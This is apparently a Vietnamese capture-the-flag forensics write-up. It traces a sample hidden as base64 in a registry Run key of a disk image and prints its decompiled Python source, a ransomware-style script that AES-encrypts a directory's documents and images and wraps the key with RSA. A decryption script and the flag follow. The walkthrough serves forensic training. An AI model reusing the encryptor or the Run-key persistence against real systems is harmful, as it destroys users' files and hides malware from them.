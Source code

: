 ### 1. Description

"I'm RUN, i'm alive, you can't find me. I'm the king of hidden"

[Link](https://bit.ly/40AW5OG)

### 2. Solution

Bài cung cấp 1 file AD1. Mở nó bằng công cụ FTK Imager, chuyên dụng cho loại file này. Bài này mình đã cho hẳn 1 part của flag nằm ở file 1.txt ở trong thư mục Downloads. 

![image](https://github.com/user-attachments/assets/eb894a1f-b687-4e1a-94c0-bb66f17a8098)

Thường thì dạng bài này sẽ là về mã độc và các kĩ thuật liên quan. Trong thư mục Desktop, ta thấy được 1 số file đáng nghi như sau: 

![image](https://github.com/user-attachments/assets/003172d8-e0be-47d9-b6f4-ead56fb85b23)

Các file encrypted_aes_key.bin, iv.bin và keypair.key có vẻ dùng cho mục đích nào đó. Ta kiểm tra các file khác và thấy chúng không đọc được. Từ đây ta suy ra được chúng đã bị mã hóa và ta cần tìm ra mã độc để giải mã. Từ đề bài, ta có thể đoán được kĩ thuật được sử dụng ở đây là Persistence - duy trì sự tồn tại của mã độc trên hệ thống (trước khi có hint, còn sau khi có hint thì nó quá rõ ràng rồi). Mình đã loại bỏ hầu hết các file không liên quan và chỉ để lại 1 số folder quan trọng, trong đó có config nằm ở folder System32. Thư mục này lưu trữ các Registry của hệ thống và hệ thống cấu hình. Đến đây, ta đoán được 90% phương pháp sử dụng ở đây là Registry keys. Với phương pháp này, có 1 số đường dẫn mà ta cần lưu ý như sau: 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce 
```
Khi được nạp vào Run, mã độc sẽ được tự động chạy khi hệ thống được khởi động. Export file SOFTWARE trong config ra. Tiếp theo, sử dụng công cụ có thể tương tác với các file như này, ở đây các bạn có thể chọn Registry Spy hoặc Registry Explorer. Load file vào tool, ta tập trung vào đường dẫn mà mình đã nói ở trên. Ở Run, ta thấy 1 đoạn mã lạ: 

![image](https://github.com/user-attachments/assets/e060cda7-ce6c-4aa4-9efc-eb3988c3337b)

Copy all và đưa vào Cyberchef để giải mã base64, ta được 1 file exe: 

![image](https://github.com/user-attachments/assets/9ecd9e94-8e83-43ff-a4b5-129417daf331)

Nếu sử dụng DIE, ta sẽ chỉ thấy nó được viết bằng C/C++. Tuy nhiên khi load vào IDA, ta thấy rằng nó thực sự được viết bằng Python, sau đó compile ra exe. 

![image](https://github.com/user-attachments/assets/ec1ac56d-e50f-4c9b-811f-e8ef12f42f43)

Dùng pyinstxtractor để decompile nó thành file pyc, kết quả ta nhận được: 

![image](https://github.com/user-attachments/assets/f043b00d-5ce9-4b0a-ba97-acdbf786448e)

Có khá nhiều file, tuy nhiên đa phần là các thư viện và module của nó. Ta tập trung vào file encode.py hoặc nó tên gì phụ thuộc vào tên bạn đặt khi export từ Cyberchef. Load file này vào [PyLingual](https://www.pylingual.io), ta có được đoạn code mã hóa ban đầu: 

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: encode.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import random
import string
from Crypto.Cipher import AES
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
BLOCK_SIZE = 16

def rsa_generatePublicPrivate():
    key = RSA.generate(2048)
    public_key = key.publickey().export_key('PEM')
    private_key = key.export_key('PEM')
    with open('keyPair.key', 'wb') as f:
        f.write(public_key)
        f.write(b'@')
        f.write(private_key)
    print("RSA key pair generated and saved to 'keyPair.key'.")

def generate_key():
    aes_key = ''.join(random.choices(string.ascii_letters + string.digits, k=16))
    return aes_key

def aes_encrypt(aes_key, iv, file_path):
    key = aes_key.encode('utf-8')
    with open(file_path, 'rb') as f:
        plaintext = f.read()
    padding_length = BLOCK_SIZE - len(plaintext) % BLOCK_SIZE
    plaintext += bytes([padding_length]) * padding_length
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(plaintext)
    with open(file_path, 'wb') as f:
        f.write(ciphertext)

def encrypt_files_with_extensions(aes_key, iv, extensions):
    current_directory = os.getcwd()
    for root, dirs, files in os.walk(current_directory):
        for file in files:
            if not any((file.endswith(ext) for ext in extensions)):
                continue
            aes_encrypt(aes_key, iv, os.path.join(root, file))
    print(f"All files with extensions {', '.join(extensions)} have been encrypted.")

def rsa_encrypt(aes_key, public_key):
    public_key_obj = RSA.import_key(public_key)
    cipher_rsa = PKCS1_OAEP.new(public_key_obj)
    encrypted_key = cipher_rsa.encrypt(aes_key.encode('utf-8'))
    with open('encrypted_aes_key.bin', 'wb') as f:
        f.write(encrypted_key)
    print("AES key has been encrypted and saved to 'encrypted_aes_key.bin'.")
if __name__ == '__main__':
    rsa_generatePublicPrivate()
    with open('keyPair.key', 'rb') as f:
        keys = f.read()
    public_key, private_key = keys.split(b'@')
    aes_key = generate_key()
    iv = os.urandom(BLOCK_SIZE)
    with open('iv.bin', 'wb') as f:
        f.write(iv)
    extensions_to_encrypt = ['.txt', '.png', '.jpeg', '.jpg', '.docm', '.docx', '.xlsx']
    encrypt_files_with_extensions(aes_key, iv, extensions_to_encrypt)
    rsa_encrypt(aes_key, public_key)
    print("\n        | | _____ _____   _| |__   ___  __ _ _ __\n        | |/ / _ \\_  / | | | '_ \\ / _ \\/ _` | '__|\n        |   < (_) / /| |_| | |_) |  __/ (_| | |\n        |_|\\_\\___/  . All specified files have been encrypted.\n    ")
```

Đoạn code này sử dụng 2 lớp mã hóa. Ban đầu nó mã hóa các file bằng AES. IV được lưu vào 1 file riêng. Còn key sau đó được mã hóa bằng RSA và lưu vào tệp encrypted_aes_key.bin. Cặp khóa mã hóa RSA sẽ được lưu trong tệp keyPair và được ngăn cách bởi kí tự @. Giờ việc còn lại chỉ là giải mã với các thông tin đã có:

```python
import os
from Crypto.Cipher import AES
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP

BLOCK_SIZE = 16

def rsa_decrypt(private_key_path, encrypted_key_path):
    with open(private_key_path, 'rb') as f:
        keys = f.read()
    _, private_key = keys.split(b'@')

    private_key_obj = RSA.import_key(private_key)

    with open(encrypted_key_path, 'rb') as f:
        encrypted_key = f.read()

    cipher_rsa = PKCS1_OAEP.new(private_key_obj)
    decrypted_key = cipher_rsa.decrypt(encrypted_key)
    return decrypted_key.decode("utf-8")

def aes_decrypt(aes_key, iv_path, file_path):

    with open(iv_path, 'rb') as f:
        iv = f.read()

    key = aes_key.encode("utf-8")

    with open(file_path, 'rb') as f:
        ciphertext = f.read()

    cipher = AES.new(key, AES.MODE_CBC, iv)
    plaintext = cipher.decrypt(ciphertext)

    padding_length = plaintext[-1]
    plaintext = plaintext[:-padding_length]

    with open(file_path, 'wb') as f:
        f.write(plaintext)

def decrypt_files_with_extensions(aes_key, iv_path, extensions):
    current_directory = os.getcwd()
    for root, dirs, files in os.walk(current_directory):
        for file in files:
            if any(file.endswith(ext) for ext in extensions):
                aes_decrypt(aes_key, iv_path, os.path.join(root, file))
    print(f"All files with extensions {', '.join(extensions)} have been decrypted.")


if __name__ == "__main__":

    key_pair_path = 'keyPair.key'

    encrypted_key_path = 'encrypted_aes_key.bin'

    iv_path = 'iv.bin'

    aes_key = rsa_decrypt(key_pair_path, encrypted_key_path)

    extensions_to_decrypt = ['.txt', '.png', '.jpeg', '.jpg', '.docm','.docx','.xlsx']
    decrypt_files_with_extensions(aes_key, iv_path, extensions_to_decrypt)
```

Ở file nothing.png sau giải mã, ta tìm được part2 của flag: 

![nothing](https://github.com/user-attachments/assets/9aa54ac0-070a-4db2-bd2c-6b7c83f8bbc9)

FLAG : **TASCTF{Surpr1se_N0t_4_R34LLY_M4lwa3r_P3rs1st3nc3!!!!}**
